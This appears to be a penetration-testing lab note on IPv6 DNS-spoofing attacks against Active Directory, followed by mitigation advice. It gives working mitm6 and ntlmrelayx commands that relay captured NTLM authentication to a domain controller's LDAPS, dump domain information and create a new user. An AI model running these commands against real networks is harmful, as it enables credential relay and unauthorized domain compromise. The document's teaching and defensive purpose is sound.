 4. IPv6 Attacks

Machines typically run on IPv4 on the network
Chances are the network is not even utilising IPv6
i.e. IPv6 might be on but we are utilising IPv4

If we are using IPv4 but IPv6 is turned on, no-one is doing DNS for IPv6. 
Can set up an attacker machine and will listen for all IPv6 messages coming through 
- we can pretend we are i.e. spoof the DNS
- like that, we can get authentication to the DC via LDAP or SMB
- can do that e.g. when a machine reboots and we capture the IPv6 information (then by spoofing we get DC info)
- that will come to us in the form of NTLM, and we relay that to the DC (i.e. the LDAP or SMB)

Will use **Mitm6** (Man in the middle) to do so in combination with ntlmrelayx. It will create a new account for us. 

We need to use Mitm6 and set up LDAP

After we set up LDAP on add certificate on DC

Now run mitm6
```
sudo mitm6 -d marvel.local
```
![7c19f246502fa6ce0120822ad284711b.png](../../_resources/e87e078781d24077ac18f4bebd022311.png)

Start ntlmrelayx
```
sudo ntlmrelayx.py -6 -t ldaps://10.10.10.6 -wh fakewpad.marvel.local -l lootme
```

![c48f74cae7239a153ae572b4257aee77.png](../../_resources/d8c14e15f5944ebd98e2806694e27035.png)

Can find "loot" automatically generated in the folder
![4bbe37ea17ee249bba8c10e2d2ef8691.png](../../_resources/76db4add0b5142f8b0ac56e9be0629ef.png)

e.g. check out a form
```
firefox domain_users_by_group.html
```

![32110382262fcc16e930f4a9885ed460.png](../../_resources/4f7629752ddc4830868b4972baccacfc.png)

![d1d5b0ced988bea82550a3e196a2bf13.png](../../_resources/489fec101eff4235b9e4f35f4de2f5b2.png)

We see that once we have logged in FC with MARVEL\Administrator credentials, mitm6 manages to get access (because of the LDAP relay) and even create a new user for us:

![06e02c0a4f09557aef04c1c03c9ed80a.png](../../_resources/506d407803c8458f917a5f166b8287b4.png)
![d6a50f7065372d4ae7fe841f160fda97.png](../../_resources/bfdffa477ac34787ad9de7e5300d4dc0.png)

Can see the created user from the DC
![59c197c550ac1f2689922cda6fbaf694.png](../../_resources/b6a8c71b3f664c10a38a3804ab25e6e7.png)

Finally, we see a recovery script auto generated by mitm6 to recover the previous setup before our invasion
![b7e5615cae65c012dc32796c09f70029.png](../../_resources/d403ce5a23384c9dbfd08364f59ae68f.png)
***

## IPv6 Attacks Mitigation

IPv6 poisoning abuses the fact that Windows queries for an IPv6 address even in IPv4-only environments.

If we don't use IPv6 internally, the safest way to prevent mitm6 is to block DHCPv6 traffic and incoming router advertisements in Windows Firewall via Group Policy. Disabling IPv6 entirely may have unwanted side effects. 

Setting the following predefined rules to **Block** instead of **Allow**, prevents the attack from working:
- (Inbound) Core Networking - Dynamic Host Configuration Protocol for IPv6 (DHCPV6-In)
- (Inbound) Core Networking - Router Advertisment (ICMPv6-In)
- (Outbound) Core Networking - Dynamic Host Configuration Protocol for IPv6 (DHCPV6-Out)

If WPAD (Web Proxy Auto Discovery) is not in use internally, disable it via Group Policy and by disabling the WinHttpAutoProxySvc service

Relaying to LDAP and LDAPS can only be mitigated by enabling both LDAP signing and LDAP channel binding

Consider adding Administrative users to the 'Protected Users' group or marking them as 'Account is sensitive and cannot be delegated', which will prevent any impersonation of that user via delegation 